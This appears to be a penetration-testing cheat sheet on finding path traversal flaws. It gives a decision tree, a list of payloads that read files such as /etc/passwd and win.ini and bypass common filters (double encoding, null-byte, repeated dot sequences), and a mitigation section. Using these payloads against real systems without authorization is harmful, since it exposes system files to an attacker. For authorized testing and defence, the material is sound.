 ### Path Traversal Hunt Methodology

Use only with explicit authorization. This decision tree covers discovery, common filter behaviors, and reliable bypasses.

---

## Decision tree: question-driven hunting

1) Find file path features
- File viewers/downloads (`?file=`, `?image=`, `?path=`), export/import, logs, backups, template loaders, report renderers.
- Inputs: query/body fields, cookies (e.g., last file), headers (X-File).

2) Baseline probes
- Unix: `../../../../etc/passwd`
- Windows: `..\..\..\..\Windows\win.ini`
- Absolute paths: `/etc/passwd`, `C:\\Windows\\win.ini`.

3) Observe filter behavior
- Blocks `../` but not absolute path? Try `/etc/passwd`.
- Strips `../` once (non-recursive)? Use `....//` repetition to survive one-pass normalization.
- Decodes then strips? Use double-encoding: `%252e%252e%252f` (becomes `%2e%2e/` then `../`).
- Requires prefix path? Prepend expected base then backtrack: `/var/www/images/../../../etc/passwd`.
- Requires extension? Use null byte or parser quirks: `%00.jpg`, mixed case, or add safe suffix.

4) Delivery details
- Try without and with URL-encoding; also double-encode when needed.
- Normalize slashes: `/..//..//` or mixed `..%2f..%2f`.
- For Windows, test `%2e%2e%5c` and UNC paths if applicable.

5) Confirm impact
- Read harmless but unique-signal files first: `/etc/hostname`, `/etc/passwd` (Unix), `C:\\Windows\\win.ini` (Windows).
- Avoid writing/executing files unless explicitly in-scope.

---

## Quick payload mapping

- Basic: `../../../../etc/passwd`
- Absolute bypass: `/etc/passwd`
- Non-recursive strip bypass: `....//....//....//etc/passwd`
- Double URL-decode bypass: `%252e%252e%252f%252e%252e%252fetc/passwd`
- Base-path validation bypass: `/var/www/images/../../../etc/passwd`
- Extension validation bypass: `%2f..%2f..%2f..%2fetc%2fpasswd%00.jpg`
- Windows basic: `..\..\..\..\Windows\win.ini`

---

## Reporting/mitigation

- Use allowlists of file identifiers, not raw paths. Map IDs → server-side paths.
- Normalize and canonicalize paths; reject any that traverse outside allowed roots.
- Do not rely on simple substring removal; validate after canonicalization.
- Enforce required extensions/types server-side; for downloads, stream from known directories only.
- Drop process privileges; ensure filesystem permissions prevent lateral reads.


